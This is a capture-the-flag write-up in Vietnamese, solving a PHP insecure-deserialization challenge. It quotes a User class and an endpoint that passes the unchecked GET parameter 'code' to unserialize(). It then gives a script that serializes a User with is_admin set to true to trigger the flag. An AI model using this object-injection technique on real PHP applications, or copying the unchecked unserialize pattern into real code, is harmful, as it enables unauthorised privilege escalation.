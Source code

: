 ```php
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
```

Ở đây sẽ thấy hàm destruct sẽ trả về **"hi admin, here is your flag"** khi **is_admin===true** vậy chỉ cần làm cách nào đó đổi is_admin=1 (True) thì sẽ giải quyết được bài này

Chú ý thêm là $name $is_admin =false đều được đặt là **private**

```php
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
```
Rồi tiếp theo tới đoạn này thì nhìn vào sẽ thấy $_GET['code'] 

GET ở đây có nghĩa là dùng phương thức GET trong PHP => code ở đây ta có thể truyền payload giống bằng cách URL/?code=...
Biến code ở đây cũng không bị kiểm tra nên việc truyền payload vào thì càng dễ dàng hơn

Vậy điều quan trọng ở đây sẽ phải truyền cái gì vào payload để có thể in ra cái mình cần thì ở đây để giải quyết vấn đề này mình sẽ dùng PHP serialization


Chúng ta cần đổi is_name=1 hoặc True vì thế sẽ phải khai thác class User để lấy payload cần truyền

```php
<?php 
  class User{
      private $name;
      private $is_admin = true;
      public function __construct($name){
          $this->$name = $name;
          var_dump($name);
      }
      public function __destruct(){
          if($this->is_admin === true){
              echo "hi admin, here is your flag";
          }
      }
  }
  $a=new User ("getfl4g");
  echo serialize($a);
?>  
```
